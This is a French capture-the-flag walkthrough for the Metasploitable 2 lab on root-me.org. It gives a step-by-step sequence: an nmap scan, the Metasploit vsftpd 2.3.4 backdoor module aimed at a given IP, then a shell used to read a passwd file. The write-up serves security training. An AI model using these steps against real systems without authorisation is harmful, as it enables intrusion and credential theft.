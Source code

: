 # Metasploitable 2


Une fois l'environnement virtuel démarré et kali linux lancé, il faut récupérer l'adresse de l'environnement virtuel (exemple :
```ctf01.root-me.org```

Il faut lancer nmap sur Kali Linux, il faut taper cette commande :
```nmap -v -A ctf01.root-me.org```
L'argument **-v** sert à augmenter le niveau de verbosité, forçant Nmap à afficher plus d'informations sur le scan qu'il effectue. Les ports ouverts sont indiqués au fur et à mesure où ils sont trouvés ainsi qu'une évaluation du temps qui reste à scanner si Nmap pense que cela prendra quelques minutes. Utilisez cette option deux fois pour encore plus de verbosité.<br/>
L'argument **-A** sert à détecter le système d'exploitation et la version.

En parallèle de l'analyse, il faut lancer Metasploit avec cette commande :
```msfconsole```

Une fois que l'analyse nmap est terminée, une faille sur le port 21 est affichée :

![Image de nmap](1.png)

Il faut utiliser le nom de cette faille sur Metasploit. Il faut chercher si les deux versions sont identiques en tapant sur Metasploit :
```search vsftpd```

Metasploit la possède, il faut donc l'utiliser en tapant `use exploit/unix/ftp/vsftpd_234_backdoor`.

Puis il faut saisir le RHOSTS qui est vide par defaut, le RHOSTS correspond à l'adresse IP de l'environnement virtuel, elle est obtenue lors de l'analyse de nmap. La commande pour saisir le RHOSTS : `set RHOSTS 163.172.228.114`.

Ceci fait, il faut lancer l'exploit en tapant `exploit`.

![Image de metasploit](2.png)

Ensuite, il faut éxécuter la commande `shell` puis `ls` et le fichier `passwd` est listé. Il faut donc l'ouvrir et le mot de passe se trouve à l'intérieur.

**_Notes :_**

*Nmap est un scanneur de ports libre. Il est conçu pour détecter les ports ouverts, indentifier les services hébergés et obtenir des informations sur le système d'exploitation d'un ordinateur distant.*<br>
*Metasploit est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration.*